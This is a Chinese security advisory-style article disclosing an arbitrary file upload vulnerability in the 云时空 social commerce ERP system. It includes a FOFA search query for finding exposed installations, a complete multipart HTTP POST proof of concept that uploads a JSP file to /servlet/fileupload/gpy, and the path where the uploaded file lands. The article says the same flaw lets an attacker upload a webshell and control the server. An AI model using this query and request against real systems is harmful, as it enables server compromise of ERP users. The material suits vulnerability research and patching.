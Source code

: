#  云时空社会化商业ERP系统任意文件上传漏洞   
原创 安全透视镜  网络安全透视镜   2023-12-19 19:56  
  
# 一、漏洞描述  
  
****  
云时空商业ERP以大型集团供应链系统为支撑，是基于互联网技术的多渠道模式营销服务管理体系，可以整合线上和线下交易模式，覆盖企业经营管理应用各个方面。有效掌控全流程情况，敏捷捕捉消费者需求，快速响应市场变化，规避经营风险，以市场为导向，优化部署营销资源，协同产销、供应与服务，帮助您的企业构建敏捷的经营管理平台，还能通过互联网、人工智能等创新模式，整合流通企业上下游产业链资源，协助您共享数字服务，提升企业数字化管控效率。  
  
该系统存在任意文件上传漏洞，通过此漏洞，攻击者可上传webshell木马，远程控制服务器。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5hv6iasEz89gxRooKMybKtBnebV4T43AmCxXnLMttuTR57VMYkicibNvJKIkJgicFvsuibhJmjpBaBicTg/640?wx_fmt=png&from=appmsg "")  
  
# 二、网络空间搜索引擎搜索  
  
  
fofa查询  
```
app="云时空社会化商业ERP系统"
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5hv6iasEz89gxRooKMybKtBmKrcicfiazcfrtHv0aATgvJ1OwQXXzuUeGq29yUibiceXGZJsE6Y3NnT2A/640?wx_fmt=png&from=appmsg "")  
  
# 三、漏洞复现  
  
  
POC  
```
POST /servlet/fileupload/gpy HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=4eea98d02AEa93f60ea08dE3C18A1388
Content-Length: 238

--4eea98d02AEa93f60ea08dE3C18A1388
Content-Disposition: form-data; name="file1"; filename="check.jsp"
Content-Type: application/octet-stream

<% out.println("This website has a vulnerability"); %>
--4eea98d02AEa93f60ea08dE3C18A1388--
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5hv6iasEz89gxRooKMybKtBDnAzFD4CqGZTjl38HgvXvctlRpHTwX9E9p7rqTy37KQP9b3gDA18RA/640?wx_fmt=png&from=appmsg "")  
  
  
文件上传成功后路径为：/uploads/pics/上传日期/check.jsp  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5hv6iasEz89gxRooKMybKtBOiciaESDaMFR4QQbribcaic7bpM9MicjdkvP4xcIKLicrYw7ebB8c0C99epg/640?wx_fmt=png&from=appmsg "")  
  
  
**四、漏洞检测**  
  
=  
  
pocsuite3漏洞检测  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5hv6iasEz89gxRooKMybKtBufZToKYNPccRBibiaksOibmicnaVZROUAbNI1ibSkYXhuugQgNkMwWmuadQ/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞检测脚本已上传免费漏洞库  
  
地址：  
  
https://github.com/Vme18000yuan/FreePOC  
  
# 免责声明：文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
****  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS4ibIBPcmgJMLNXWIaCPcW54mVicYJkaOO1JQicEDBGCBM1P7IiaiablZ9tEUrP27FyvB9CZWl5SiaqhicDw/640?wx_fmt=png "")  
  
****  
****  
  
  
